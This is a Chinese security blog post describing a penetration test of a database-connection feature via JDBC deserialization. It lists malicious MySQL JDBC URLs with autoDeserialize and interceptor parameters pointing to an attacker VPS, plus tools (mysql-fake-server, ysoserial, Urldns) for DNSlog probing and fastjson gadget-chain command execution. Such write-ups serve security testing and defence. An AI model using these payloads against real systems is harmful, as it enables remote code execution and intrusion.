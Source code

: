 #  一次JDBC反序列化漏洞   
 听风安全   2025-02-27 05:23  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_gif/Tp9VOk1IaycpsK4AXvozeaMLYk7OBLQau8mDrsWslNiajkybyodE8HbkJ9ibPO7IofWw3S4sE38LyCWYSxSZMjkQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**免责声明**  
  
由于传播、利用本公众号听风安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号听风安全及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
公众号现在只对常读和星标的公众号才展示大图推送，  
  
建议大家把  
听风安全  
  
设为**星标**  
，否则可能就看不到啦！  
  
----------------------------------------------------------------------  
  
在一次测试中遇到了数据库连接功能，这种功能点一般会存在jdbc反序列化漏洞。  
  
特征点：  
  
这种数据库连接点一般会存在jdbc反序列化漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRImMNCIOvuN6toPOus15qZcKgicIdPB82jSCtDkJf9nBM9zS51xnkLLWA/640?wx_fmt=png&from=appmsg "")  
  
  
打法：  
  
先试试打h2不出网利用链。该利用链需要对方服务器导入了h2依赖包才能打。执行ping dnslog命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRICkoTDFUUg0wzvgGicLQEh7xXWs2qwD4cAicIGeKYxbAvza6REwyQGQFw/640?wx_fmt=png&from=appmsg "")  
  
然后测试连接，发送请求，看起来并没有收到dnslog请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI2kvjykt1snpHe4ahPv74x72sZaFk6e3C0PSRibBUyGiaichjBFZta6Ggw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIcdj2u45M3M5rLbecDhVS3aBnhzCCD7h9lpG8JUE6TJiaphAPlyFQnPw/640?wx_fmt=png&from=appmsg "")  
  
  
那就换着打常规的出网利用链。需要用到这个工具。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIpfxaePTbtSs7Gl6CenZJSztwIH0OeAgJUzuE8hMeCGs9Ficp4hrMwvg/640?wx_fmt=png&from=appmsg "")  
  
下载地址：https://github.com/4ra1n/mysql-fake-server/  
  
打个dnslog链，探测是否存在反序列化漏洞。  
  
  
先在自己的vps起一个服务  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRItiaQ7xgZJ4Pjs127z0Z3bl3JVxVl059mcBQ6pRhoqGra97sCErb6wsw/640?wx_fmt=png&from=appmsg "")  
  
在url处写入(目标服务器JDBC Version6.x时使用)  
  
jdbc:mysql://ip:port/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor  
  
（目标服务器JDBC Version8.x时使用)  
  
jdbc:mysql://ip:port/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor  
  
  
用户名处写入要打的urldns地址，密码可以随便写  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI5vRpYsFqyIzViahbGMkxzApabUHf8mZdtXFEUZiaOkZqeu9HMjsZ2yUQ/640?wx_fmt=png&from=appmsg "")  
  
VPS成功收到请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIybrzZYWfxZl5oJtXnHLOzF4hgRO8gqt6wSt2oiaN651eLia6lQ8Ze1KA/640?wx_fmt=png&from=appmsg "")  
  
dnslog收到回显  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI8Yv1Uc94icicNltU9E8OLuua2GTejf6lIw8mVLEzLpJLLu6YaJA13xpA/640?wx_fmt=png&from=appmsg "")  
  
接下来可以试试打可以执行命令的链，例如cc链，cb链等。  
  
但是试了几个下来都没有成功执行命令，就是说目标服务器可能没有导入对应的依赖。（过程省略）  
  
  
刚好bp插件帮我扫到了druid未授权漏洞，可以通过druid未授权看看服务器里的组件有什么，就可以判断打什么链了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIWNQtd992s7gMHGZq1bA9YgBd7khPMCftFBOklib04Pj1axNUU6jgw6g/640?wx_fmt=png&from=appmsg "")  
  
  
服务器导入的是commons-collections-3.2.2.jar版本，相较于之前的版本增加了一个安全检查，所以没办法直接打cc链。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIOWubux9cVJrTJiaDKzV5wsG7zCAyJMBBlXUMibBBpEEJDvPb4KsbxARg/640?wx_fmt=png&from=appmsg "")  
  
目标服务器还有c3p0，但是这个链不太好打jdbc反序列化，需要的前置条件比较多。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIUa21oTY519LXLk3y2c4zpPibibcrxKDuJKgD0KA43B2Oh1AOj9lZUWgg/640?wx_fmt=png&from=appmsg "")  
  
又发现了目标服务器使用了fastjson，看来可以直接打fastjson链了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIz03uUSIdsffJjcxednO7zHzp3cacZliadTsbng47p2yViaI4qqjQdD4g/640?wx_fmt=png&from=appmsg "")  
  
  
使用工具生成fastjson链，执行ping命令  
  
https://github.com/Lotus6/ysoserial  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIiaicQd4x9MZW5vO4BSMeMjOYDrbxF8SHrBEIExMgdD6ficmFaT8yWIxibA/640?wx_fmt=png&from=appmsg "")  
  
  
将base64编码的payload在vps上，这里我放到了test文件里  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIV1MW1kTtPsicTp04W180ysZrB7jqUxrZYYUnYicczcFWcdw1npRL7fvQ/640?wx_fmt=png&from=appmsg "")  
  
  
通过命令再次启动服务  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIwJjpB4GgSSY1PlW7WsiaqFxNEicjQaIqcgYMrSq8twAKFoWZ4tE0qleQ/640?wx_fmt=png&from=appmsg "")  
  
再次创建数据库连接，将用户名处改为deser_CUSTOM  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIYrcyLufCxDZXX5cdicj8qDzJKREz8RK0DVsPYj3HUeco0Q9NFwbafHg/640?wx_fmt=png&from=appmsg "")  
  
  
成功执行ping命令，拿下。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIcwrGsmEwrQzyDLKwnF1VgIpNweljLvPRkic9XRiaDd4wPdr8hvV7Q2MA/640?wx_fmt=png&from=appmsg "")  
  
  
补充：  
  
如果目标没有druid未授权，那么怎么知道目标服务器有什么链可以打呢？  
  
可以通过urldns链判断目标有什么利用链，如果存在某个指定的类，就进行dnslog请求，从而判断服务器有什么链，具体原理这里不细讲，有兴趣的可以看这个文章了解。  
  
https://mp.weixin.qq.com/s/KncxkSIZ7HVXZ0iNAX8xPA  
  
我们可以用珂师傅的工具  
  
https://github.com/kezibei/Urldns  
  
通过该工具生成base64编码的payload  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIXZblBKUWUAoTk6s3aojk6icHDeJibAzYTF6IEyffafwybTic9WWsEYUYQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIw1twj4hgTO7lho4iaQvYU7OZ9s2oHJ7mrCb9o9zMx3UqpCLia9j42cKA/640?wx_fmt=png&from=appmsg "")  
  
和刚才的步骤相同，放到vps上面，过程省略。成功把目标服务器信息回显出来。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIsFaEDIAqtEaibPCfv6ZicibHq0PpGTic6QQuduibAF7fuUz9lwa6FE5mPBw/640?wx_fmt=png&from=appmsg "")  
  
不可错过的往期推荐哦  
  
  
```
```  
  
  
点击下方名片，关注我们  
  
  
  
觉得内容不错，就点下  
“**赞**  
”  
和  
“**在看**  
”  
  
  
如果不想错过新的内容推送可以设为**星标**  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Yv6ic9zgr5hTYyCkc91euAiaGULJSbiaHricFHs2dd2sib20WTJKwHYD90Jia9HCKxnmJUwnkicGU7rVP3EYCVh3dMnng/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
  
